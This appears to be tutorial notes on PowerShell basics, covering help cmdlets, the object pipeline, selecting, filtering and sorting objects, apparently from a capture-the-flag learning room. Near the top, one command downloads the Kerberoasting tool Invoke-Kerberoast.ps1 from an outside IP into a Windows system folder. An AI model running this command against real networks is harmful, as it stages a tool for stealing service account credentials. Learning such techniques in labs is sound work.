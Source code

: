 ##  Find Files
`Get-ChildItem -Recurse -Filter "interesting-file.txt" 2>$null`

## Download Files
``(New-Object System.Net.WebClient).DownloadFile('http://10.17.47.25:80/Invoke-Kerberoast.ps1','C:\Windows\System32\spool\drivers\color\Invoke-Kerberoast.ps1') `

**Using Get-Help**

Get-Help displays information about a _cmdlet._ To get help about a particular command, run the following:

`Get-Help Command-Name`

You can also understand how exactly to use the command by passing in the `-examples` flag. This would return output like the following: 

![](https://i.imgur.com/U5Mlirh.png)  

**Using Get-Command**

Get-Command gets all the _cmdlets_ installed on the current Computer. The great thing about this _cmdlet_ is that it allows for pattern matching like the following

`Get-Command Verb-*` or `Get-Command *-Noun`

Running `Get-Command New-*` to view all the _cmdlets_ for the verb new displays the following: 

![](https://i.imgur.com/KEzbPUI.png)

**Object Manipulation**

In the previous task, we saw how the output of every _cmdlet_ is an object. If we want to actually manipulate the output, we need to figure out a few things:

-   passing output to other _cmdlets_
-   using specific object _cmdlets_ to extract information

The Pipeline(|) is used to pass output from one _cmdlet_ to another. A major difference compared to other shells is that instead of passing text or string to the command after the pipe, powershell passes an object to the next cmdlet. Like every object in object oriented frameworks, an object will contain methods and properties. You can think of methods as functions that can be applied to output from the _cmdlet_ and you can think of properties as variables in the output from a cmdlet. To view these details, pass the output of a _cmdlet_ to the Get-Member _cmdlet_

`Verb-Noun | Get-Member` 

An example of running this to view the members for Get-Command is:

`Get-Command | Get-Member -MemberType Method`

![](https://i.imgur.com/OlwXSbS.png)

From the above flag in the command, you can see that you can also select between methods and properties.

Creating Objects From Previous _cmdlets_

One way of manipulating objects is pulling out the properties from the output of a cmdlet and creating a new object. This is done using the `Select-Object` _cmdlet._ 

Here's an example of listing the directories and just selecting the mode and the name:

![](https://i.imgur.com/Zdxicjj.png)

You can also use the following flags to select particular information:

-   first - gets the first x object
-   last - gets the last x object
-   unique - shows the unique objects
-   skip - skips x objects

**Filtering Objects**

When retrieving output objects, you may want to select objects that match a very specific value. You can do this using the `Where-Object` to filter based on the value of properties. 

The general format of the using this _cmdlet_ is 

`Verb-Noun | Where-Object -Property PropertyName -operator Value`

`Verb-Noun | Where-Object {$_.PropertyName -operator Value}`

The second version uses the $_ operator to iterate through every object passed to the Where-Object cmdlet.

**Powershell is quite sensitive so make sure you don't put quotes around the command!**

Where `-operator` is a list of the following operators:

-   -Contains: if any item in the property value is an exact match for the specified value
-   -EQ: if the property value is the same as the specified value
-   -GT: if the property value is greater than the specified value

For a full list of operators, use [this](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/where-object?view=powershell-6) link.

Here's an example of checking the stopped processes:

![](https://i.imgur.com/obTvbWW.png)

Sort Object

When a _cmdlet_ outputs a lot of information, you may need to sort it to extract the information more efficiently. You do this by pipe lining the output of a _cmdlet_ to the `Sort-Object` _cmdlet_.

The format of the command would be

`Verb-Noun | Sort-Object`

Here's an example of sort the list of directories:

![](https://i.imgur.com/xob5cqe.png)

Now that you've understood the basics of how Powershell works, let try some commands to apply this knowledge!